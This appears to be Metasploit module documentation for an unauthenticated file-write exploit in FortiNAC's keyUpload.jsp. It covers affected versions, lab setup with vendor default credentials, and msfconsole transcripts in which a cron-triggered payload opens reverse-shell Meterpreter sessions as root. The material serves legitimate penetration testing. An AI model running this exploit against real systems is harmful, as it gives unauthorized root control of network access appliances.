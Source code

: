 ## Vulnerable Application

This module uploads a payload to the /tmp directory in addition to a cron job to /etc/cron.d which executes the payload
in the context of the root user.

The core vulnerability is an arbitrary file write issue in keyUpload.jsp which is accessible remotely and without
authentication. When you send the vulnerable endpoint a zip file, it will extract an arbitrary file to an arbitrary
location on the system.

This issue is exploitable on the following versions of FortiNAC:

FortiNAC version 9.4.0
FortiNAC version 9.2.0 through 9.2.5
FortiNAC version 9.1.0 through 9.1.7
FortiNAC 8.8 all versions
FortiNAC 8.7 all versions
FortiNAC 8.6 all versions
FortiNAC 8.5 all versions
FortiNAC 8.3 all versions

### Setup

Navigate to https://www.fortinet.com/demo-center/nac-demo to obtain a FortiNAC free product demo. Fill out the
necessary fields in order to download; first name, last name, job function, job level, company, email address, phone
number, state, zip/postal code. You'll receive a confirmation email, click the link in the email in order to access the
free product download.

Import the OVF file into your virtualization software of choice. Personally, I had success using VMware Fusion. Change the network
interface from Bridged to Host Only. Once the machine turns on, log in with the following default credentials as outlined
in the [VMware Virtual Machine Installation Guide](https://fortinetweb.s3.amazonaws.com/docs.fortinet.com/v2/attachments/920a0000-200d-11e9-b6f6-f8bc1258b856/fortinac-vmware-install-85.pdf)

```
Username: root
Password: 162PemBnI
```

Once authenticated successfully, statically set the IP Address of the machine:

`configIP 192.168.123.11 255.255.255.0 192.168.123.1`

Navigate to the directory where the license file resides. You will need this file saved locally when completing the
necessary installation steps in the browser.

```
cd /bsc/campusMgr
python -m SimpleHTTPServer 9099
```

On your local machine download the license file from the python server started above:


`wget -O licenseKey http://192.168.123.11:9099/.licenseKey`

On your local machine, open the browser of your choice and navigate to:

`https://192.168.123.11:8443/gui`

Authenticate with the default username and password:

```
Username: root
Password: YAMS
```

Follow the installation steps, everything should be straight forward. When asked for the license key browser to the file
downloaded from the python server. Hostname is `localhost` domain can be set to `localhost.localdomain`. You will be
required to change the default passwords from the GUI and once complete, restart the machine. You should now have a
vulnerable instance of FortiNAC configured.


## Verification Steps

1. Start msfconsole
1. Do: `use exploit/multi/http/fortinac_keyupload_file_upload`
1. Set the `RHOST` and `LHOST`options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### FortiNAC 9.4.0 Python Target

```
msf6 > use exploit/multi/http/fortinac_keyupload_file_upload
[*] Using exploit/multi/http/fortinac_keyupload_file_upload
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > set rhosts 192.168.123.11
rhosts => 192.168.123.11
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > set lport 4440
lport => 4440
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > run

[*] Started reverse TCP handler on 192.168.123.1:4440
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending zipped payload to keyUpload.jsp
[*] Sending zipped cron job to keyUpload.jsp
[*] Waiting for cron job to run
[*] Sending stage (24772 bytes) to 192.168.123.11
[*] Meterpreter session 1 opened (192.168.123.1:4440 -> 192.168.123.11:56544) at 2023-03-08 13:48:03 -0500
[!] This exploit may require manual cleanup of '/tmp/gSYDIjeD' on the target
[!] This exploit may require manual cleanup of '/etc/cron.d/PYXGcyGo' on the target

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer        : localhost.localhost.localdomain
OS              : Linux 3.10.0-1160.53.1.el7.x86_64 #1 SMP Fri Jan 14 13:59:45 UTC 2022
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > 

```

### FortiNAC 9.4.0 Linux x64 Target
```
msf6 > use exploit/multi/http/fortinac_keyupload_file_upload
[*] Using exploit/multi/http/fortinac_keyupload_file_upload
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > set rhosts 192.168.123.11
rhosts => 192.168.123.11
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > set lport 4440
lport => 4440
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > set target Linux x64
target => Linux x64
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > set paylaod linux/x64/meterpreter/reverse_tcp
[-] Unknown datastore option: paylaod. Did you mean PAYLOAD?
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > run

[*] Started reverse TCP handler on 192.168.123.1:4440
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending zipped payload to keyUpload.jsp
[*] Sending zipped cron job to keyUpload.jsp
[*] Waiting for cron job to run
[*] Sending stage (3045348 bytes) to 192.168.123.11
[*] Meterpreter session 2 opened (192.168.123.1:4440 -> 192.168.123.11:56578) at 2023-03-08 13:49:01 -0500
[!] This exploit may require manual cleanup of '/tmp/vprwoPAh' on the target
[!] This exploit may require manual cleanup of '/etc/cron.d/ZIpoyhHQ' on the target

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localhost.localdomain
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.53.1.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

